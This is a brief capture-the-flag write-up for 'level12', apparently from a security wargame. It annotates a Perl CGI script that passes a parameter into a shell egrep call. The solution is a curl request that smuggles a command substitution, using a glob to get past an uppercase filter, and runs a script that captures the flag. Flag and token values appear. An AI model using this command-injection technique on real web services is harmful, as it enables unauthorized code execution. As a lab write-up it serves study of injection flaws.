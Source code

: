 ## FLAG: `fa6v5ateaw21peobuub8ipe6s`

> cat level12.pl
```
    ...
    # localhost:4646
    ...
        $nn = $_[1];                            // $nn == Y parameter
        $xx = $_[0];                            // $xx == X parameter
        $xx =~ tr/a-z/A-Z/;                     // toupper sur $xx
        $xx =~ s/\s.*//;                        // replace first occurence for \s.* by nothing ('\s' any whitespace, '.' any character, '*' unlimited previous) -> CANNOT HAVE WHITESPACE
        @output = `egrep "^$xx" /tmp/xd 2>&1`;  // exec command 'egrep $xx /tmp 2>&1'
    ...
    n(t(param("x"), param("y")));
```

> vi /tmp/12_GETFLAG.SH
```
#!/bin/bash
getflag > /tmp/12_res
```

> chmod +x /tmp/12_GETFLAG.SH
> curl 'http://127.0.0.1:4646/?x=$(/*/12_GETFLAG.SH)&y=BAHRIEN'
> cat /tmp/12_res
```
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
